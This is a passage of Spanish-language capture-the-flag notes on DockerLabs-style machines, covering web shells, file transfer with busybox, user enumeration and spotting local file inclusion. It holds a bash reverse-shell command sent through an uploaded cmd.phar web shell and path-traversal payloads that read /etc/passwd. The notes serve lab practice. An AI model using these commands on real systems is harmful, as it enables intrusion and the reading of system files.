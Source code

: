 http://dev.hidden.lab/uploads/cmd.phar?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.40/443 0>%261"

se agregó la línea:
cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.40/443 0>%261"

-------------------------------------------------------------------------------

## 21.- Si no podemos transferir un archivo por wget o por curl, podemos subirlo mediante la web, si es el caso de que la web me permite subir cualquier archivo, el rockyou se tiene que subir una parte.

ejemplo:

maquina hidden de dockerlabs.

también para subir algo y wget no está disponible podemos usar 

vemos si está instalado busybox

which busybox

y si está instalado ejecutamos:

busybox wget url-descarga

-------------------------------------------------------------------------------

## 22.- siendo el usuario www-data, a veces con el cat /etc/passwd | grep bash no me permiten ver los usuarios, entonces tengo que entrar a home para ver los usarios que existen.

-------------------------------------------------------------------------------

## 23.- si en una web, en una pantalla me aparece el mensaje:

"Error de Sistema: ($_GET['archivo']");

puede que se trate de un LFI, y el parametro LFI seria "archvo", solo hay que encontrar en que parte de la url es accesible.

nota: No es necesario que en la url sea por ejemplo:

index.php?archivo=../../../../../../../etc/passwd

también puede ser:

/shop/?archivo=../../../../../../../../../../etc/passwd

o

/shop?archivo=../../../../../../../../../../etc/passwd

ya que en el directorio /shop no se encontró ningún archivo php

-------------------------------------------------------------------------------
